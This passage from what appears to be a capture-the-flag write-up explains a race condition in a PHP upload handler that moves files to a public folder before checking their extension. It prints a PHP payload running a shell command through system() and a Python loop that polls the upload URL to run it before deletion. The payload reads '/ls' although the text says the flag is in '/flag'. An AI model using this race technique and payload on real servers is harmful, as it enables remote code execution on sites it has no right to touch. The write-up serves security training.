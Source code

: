      if(move_uploaded_file($temp_file, $upload_file)){

          if(in_array($file_ext,$ext_arr)){
               $img_path = UPLOAD_PATH . '/'. md5(rand(1, 1000)).".".$file_ext;
               rename($upload_file, $img_path);
               echo "file was uploaded successfully";
               die();
          }else{   
              unlink($upload_file);
              echo "Your file was deleted !"."<br>";
              die("Only jpg,png and gif files are allowed");
          }
      }else{
          die('an Error has occured !!');
      }
    }
    ?>
    ```
    </details>
      
    So what are we doing here? We upload a file, the file is moved to `/uploads`, we check the file extension, if it's an image we rename the file with a random name (`md5(rand(1,1000))`) else we'll be deleting the file. What's the problem here? The file is moved to an accessible location before verifying whether it'll be authorized or no & that'll be our attack vector. Code gets executed instruction after an other so if we are fast enough (& lucky enough), we can access the uploaded file before it's deleted, no matter what type it's! We were told that the flag is in `/flag` so we can make a php file with the following
      
    ```php
    <?php
      echo system('cat /ls');
    ?>
    ```
      
    We'll name that `payload.php`. We'll be using a python script for this time race which is the following
    
    ```python
    import requests
      
    while True:
      r = requests.get('http://20.119.58.135:567/uploads/payload.php')
      if r.status_code == 200:
        print(r.content)
        break
    ```
      
    And we run that & upload our `payload.php` to get our flag:
      
    <p align="center">
      <img src="img/raceflag.png"><br/>
    </p>
      